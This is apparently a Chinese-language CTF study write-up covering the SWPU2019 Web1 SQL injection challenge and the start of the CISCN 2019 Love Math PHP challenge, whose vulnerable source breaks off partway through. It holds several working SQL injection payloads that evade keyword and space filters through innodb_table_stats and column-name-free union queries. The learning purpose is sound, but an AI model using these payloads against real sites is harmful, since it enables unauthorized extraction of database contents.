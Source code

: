 ## 14.[SWPU2019]Web1（sql注入）

这道题挺阴间的，主要学到的呢就是sql注入时对于一些字符串进行过滤时如何选择另一种去绕过

or被过滤时，order和information都不能使用了，此时可以使用

​	1.gropp by代替order by

![image-20230614175645211](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230614175645211.png)

这里要注入后面传入的  , 和 ' 这是必不可少的，当然两个构成闭合的单引号间可以加符号，这里代表的是group by对于数据进行查询后的结果之间用 单引号间所含的符号 来进行分割

​	2.innodb_index_stats和 innodb_table_stats代替information

采用来进行绕过。payload：

```sql
1'union/**/select/**/1,2,group_concat(table_name),4/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='web1'&&'1'='1
```

来看看含有information的是什么，两者之间的差别

```sql
1‘union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'--+
```

但是因为没有字段信息可以查，使用无列名注入直接查内容

```sql
title='union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22&content=mochu7&ac=add
```

[无列名注入总结](https://blog.csdn.net/m0_46230316/article/details/106668182?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522168673809116800213048483%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=168673809116800213048483&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-106668182-null-null.142^v88^control_2,239^v2^insert_chatgpt&utm_term=%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)

本题wp：

https://blog.csdn.net/mochu7777777/article/details/127005944

## 15.[CISCN 2019 初赛]Love Math（构造字符串）

源代码

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
```